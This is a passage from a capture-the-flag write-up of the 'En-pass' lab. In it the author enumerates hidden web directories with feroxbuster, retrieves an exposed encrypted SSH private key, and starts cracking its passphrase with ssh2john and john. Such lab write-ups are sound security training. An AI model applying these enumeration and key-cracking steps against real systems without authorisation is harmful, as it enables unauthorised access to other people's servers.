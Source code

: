 - Found hidden directory in `/web`: `/resources` 

**`/web/resources/`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# curl http://enpass.thm:8001/web/resources/
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at enpass.thm Port 8001</address>
</body></html>
```

Again 403.

**Let's use `feroxbuster` to enumerate it recursively:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# feroxbuster -u http://enpass.thm:8001/web/resources -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 100 -o ferox.txt 
[...]
301      GET        9l       28w      323c http://enpass.thm:8001/web/resources => http://enpass.thm:8001/web/resources/
301      GET        9l       28w      332c http://enpass.thm:8001/web/resources/infoseek => http://enpass.thm:8001/web/resources/infoseek/
301      GET        9l       28w      342c http://enpass.thm:8001/web/resources/infoseek/configure => http://enpass.thm:8001/web/resources/infoseek/configure/
403      GET        9l       28w      277c http://enpass.thm:8001/web/resources/infoseek/
301      GET        9l       28w      342c http://enpass.thm:8001/web/resources/infoseek/configure => http://enpass.thm:8001/web/resources/infoseek/configure/
200      GET       30l       37w     1766c http://enpass.thm:8001/web/resources/infoseek/configure/key
```

- Found hidden directories and file: `/web/resources/infoseek/configure/key`

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# curl http://enpass.thm:8001/web/resources/infoseek/configure/key
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,3A3DBCAED659E70F7293FA98DB8C1802

V0Z7T9g2JZvMMhiZ6JzYWaWo8hubQhVIu3AcrxJZqFD0o2FW1K0bHGLbK8P+SaAc
{Redacted}
-----END RSA PRIVATE KEY-----
```

It's a private SSH key, and it has a passphrase.

**Let's crack that via `john`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# curl http://enpass.thm:8001/web/resources/infoseek/configure/key -o key

┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# chmod 600 key

┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# ssh2john key > key.john

┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt key.john
[...]
```